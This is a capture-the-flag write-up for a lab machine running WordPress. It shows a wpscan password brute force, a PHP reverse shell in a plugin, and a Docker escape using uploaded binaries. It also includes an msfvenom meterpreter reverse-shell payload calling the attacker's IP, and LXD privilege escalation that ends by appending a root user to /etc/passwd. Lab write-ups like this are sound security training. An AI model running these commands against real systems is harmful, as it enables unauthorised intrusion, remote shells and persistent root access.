








# For business reason writeup

## by Disturbante 

we can start the machine with an nmap scan:
```bash
nmap -sC -sV -p- 10.10.157.8
```
output:
```bash
PORT     STATE  SERVICE
22/tcp   closed ssh
80/tcp   open   http
|_http-title: MilkCo Test/POC site &#8211; Just another WordPress site
|_http-generator: WordPress 5.4.2
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
2377/tcp closed swarm
7946/tcp closed unknown
```

# www-data

the nmap behaviour is pretty strange, in fact we got a bunch of closed ports, that could indicate that a firewall is in place.<br>
To be shure about the port we can try to interact with the actual service behind, starting from the port 80.<br>

If we visit the ip on the website we can see that it's a blog website.<br>
	

	
From this page we can extract two valuable pieces of information:

- sysadmin (one username that could be used to authenticate)
- is a WordPress site

To check wordpress information we can use wpscan:
```bash
wpscan --url http://10.10.91.119/
```
It is a `wordpress 5.4.2` and there is the `wp-admin` page open, that means we can try to login.<br>
We also have an username, that means we can try to bruteforce the password, to do that i used wpscan again:
```bash
wpscan --url http://10.10.91.119/ -U sysadmin -P /usr/share/wordlists/rockyou.txt
```
The brute force take a while but eventually we got a password!!
	

	
So now we can log inside the wordpress admin page and see if we can get a revshell.<br>
When we log in the amdin panel we can see at least two methods to execute php code, the first one is by uploading a theme plugin, then activating it.<br>
But since there is already the `Hello Dolly` plugin i will use that to execute code.<br>
To set our reverse shell in place we need to navigate to `plugin editor` section and select `Hello Dolly`.<br>
Once we added the php revshell line we can activate the plugin and got the rev shell on a listener:
	

	
We got a connection an we are www-data!<br>

# sysadmin

Altough we have a callback the machine we are in is pretty strange, in fact a lot of basic linux commands doesn't work.<br>
This is explained by a folder located in the `/`:
```bash
ls -la /
```
output:
```bash
total 72
drwxr-xr-x   1 root root 4096 Jan 21 17:15 .
drwxr-xr-x   1 root root 4096 Jan 21 17:15 ..
-rwxr-xr-x   1 root root    0 Jan 21 17:15 .dockerenv   #we are inside a docker container
drwxr-xr-x   1 root root 4096 Nov 18  2020 bin
drwxr-xr-x   2 root root 4096 Sep 19  2020 boot
drwxr-xr-x   5 root root  340 Jan 21 17:15 dev
drwxr-xr-x   1 root root 4096 Jan 21 17:15 etc
drwxr-xr-x   2 root root 4096 Sep 19  2020 home
drwxr-xr-x   1 root root 4096 Nov 18  2020 lib
drwxr-xr-x   2 root root 4096 Nov 17  2020 lib64
drwxr-xr-x   2 root root 4096 Nov 17  2020 media
drwxr-xr-x   2 root root 4096 Nov 17  2020 mnt
drwxr-xr-x   2 root root 4096 Nov 17  2020 opt
dr-xr-xr-x 154 root root    0 Jan 21 17:15 proc
drwx------   1 root root 4096 Nov 18  2020 root
drwxr-xr-x   1 root root 4096 Nov 18  2020 run
drwxr-xr-x   1 root root 4096 Nov 18  2020 sbin
drwxr-xr-x   2 root root 4096 Nov 17  2020 srv
dr-xr-xr-x  13 root root    0 Jan 21 17:15 sys
drwxrwxrwt   1 root root 4096 Jan 21 17:15 tmp
drwxr-xr-x   1 root root 4096 Nov 17  2020 usr
drwxr-xr-x   1 root root 4096 Nov 18  2020 var
```
We have a bunch of options to escape the docker and pivot to the next host, one of them is by enumerating the network we are in.<br>
With this command we will list all the ip of the machine. 
```bash
hostname -I 
```
output:
```bash
10.255.0.4 172.18.0.4 10.0.0.6
```
we have 3 interfaces, ti enumerate them we can do a basic port scan on the subnet with nmap, but wait... we don't have nmap.<br>
We can solve this problem by importing a static binary of nmap, i used [this](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64).<br>
We need to donwload it and importing it inside the machine, i used pwncat as following:
	

	
we found out that the host 172.18.0.1 trough 172.18.0.4 are up, let's try to dig on those hosts, to do that i imported another static binary to performa a basic port scan, since we need to import a big nmap folder to use it as port scanner.<br>
After uploading the static version of netcat we can launch this bacis script:
```bash
for i in {1..25}; do ./nc -v -n -w 1 172.18.0.$i 22; done
```
	

	
we have an ssh port open on the host `172.18.0.1`, now to access this host we need to pivot trough the docker container, the fastest way i know is by using meterpeter:<br>
i generate the payload on my localmachine:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.8.79.118 LPORT=6666 -f elf -o reverse.elf
```
Now we can upload and run the payload using pwncat:
	

	
Now we can add the port forward rule to pivot trough the host:
	

	
We had luck and we managed to login with sysadmin user inside the other container.<br>

# root

Now we need to enumerate in order to get root.<br>
By running the `id` command we can see that we are part of the lxd users:
```bash
id
```
output:
```bash
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),122(docker) 
```
By searching online i found [this guide](https://www.hackingarticles.in/lxd-privilege-escalation/) for privesc with lxd container.<br>
I runned all the commands and i succesfully got root:
```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
python3 -m http.server 80 #start a server to upload the container
```
Now on the victim machine we can import the container and run it:
```bash
cd /tmp
wget http://10.8.79.118/alpine-v3.13-x86_64-20210218_0139.tar.gz
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc exec ignite /bin/sh
```
Once we are root we can get a more comfortable shell as follows:
```bash
mkpasswd -m sha-512 Pass123 #create a new password hash on local machine
```
output:
```bash
$6$AtSRgOU/IrDUHgjd$8Xcx4cuHq3OQBf3./cXZl8qmIrrMYzh6nc09c/NaEdPQvD2ARvMEDjErgDGXzAKHhbOX7nyAKP6BrlgKPM7ed/
```
now we can add a user with root permissions:
```bash
echo 'newroot:$6$AtSRgOU/IrDUHgjd$8Xcx4cuHq3OQBf3./cXZl8qmIrrMYzh6nc09c/NaEdPQvD2ARvMEDjErgDGXzAKHhbOX7nyAKP6BrlgKPM7ed/:0:0:root:/root:/bin/bash' >> /mnt/root/etc/passwd
```
now we can exit the root container shell and run
```bash
su newroot #insert Pass123
```
We are now root on the host machine!
	

	
